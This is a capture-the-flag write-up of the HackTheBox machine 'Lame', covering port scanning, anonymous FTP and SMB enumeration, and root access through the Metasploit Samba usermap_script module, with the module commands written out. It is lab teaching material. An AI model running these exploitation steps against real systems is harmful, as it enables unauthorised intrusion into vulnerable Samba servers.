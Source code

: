 ```yaml
---
description: Lame writeup by Thamizhiniyan C S
---
```


# Lame

## Overview

Hello everyone, In this writeup we are going to solve Lame from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

### Rustscan

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.3 -- -A -Pn`

<figure><img src="../../.gitbook/assets/Untitled (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 1 (8).png" alt=""><figcaption></figcaption></figure>

### Results

From the results, we got the following ports and services running:

| Port | Service     | Version              |
| ---- | ----------- | -------------------- |
| 21   | FTP         | vsftpd 2.3.4         |
| 22   | SSH         | OpenSSH 4.7p1        |
| 139  | netbios-ssn | Samba smbd 3.X - 4.X |
| 445  | netbios-ssn | Samba smbd 3.X - 4.X |
| 3632 | distccd     | distccd v1           |

***

## Enumerating FTP

First, I started enumerating the FTP service running on Port `21`.

From the scan results, we can see that the Anonymous login is allowed for FTP.

<figure><img src="../../.gitbook/assets/Untitled 2 (7).png" alt=""><figcaption></figcaption></figure>

So I tried to login as `Anonymous`

Command: `ftp 10.10.10.3`

username: `Anonymous`

Password: `Anonymous`

<figure><img src="../../.gitbook/assets/Untitled 3 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 4 (8).png" alt=""><figcaption></figcaption></figure>

Found nothing in the FTP anonymous Login.

***

## Enumerating SMB

Next I started to enumerate SMB service running on port 139. I used `enum4linux` tool to enumerate.

Command: `enum4linux -a 10.10.10.3`

<figure><img src="../../.gitbook/assets/Untitled 5 (8).png" alt=""><figcaption></figcaption></figure>

From the response of `enum4linux`, I didn’t found any interesting shares.

***

## Initial Access

Next, I searched for exploits for the samba version: `Samba smbd 3.X - 4.X` and found the this version is vulnerable to command execution.

{% embed url="https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/" %}

To use the above exploit, execute the commands in `msfconsole` as follows:

`use exploit/multi/samba/usermap_script`

`set RHOSTS 10.10.10.3`

`set LHOST tun0` ( Here tun0 is your hackthebox vpn tunnel IP )

`run`

<figure><img src="../../.gitbook/assets/Untitled 6 (8).png" alt=""><figcaption></figcaption></figure>

***

## Getting the User Flag

Now we have got access to the target machine as `root`. I searched for the user flag using the following command:

command: `find / -name user.txt`

<figure><img src="../../.gitbook/assets/Untitled 7 (6).png" alt=""><figcaption></figcaption></figure>

And we have found the user flag.

***

## Getting the Root Flag

Now I searched for the root flag using the same method and found the root flag:

<figure><img src="../../.gitbook/assets/Untitled 8 (6).png" alt=""><figcaption></figcaption></figure>

We have successfully found all the flags.

Thank You !!!
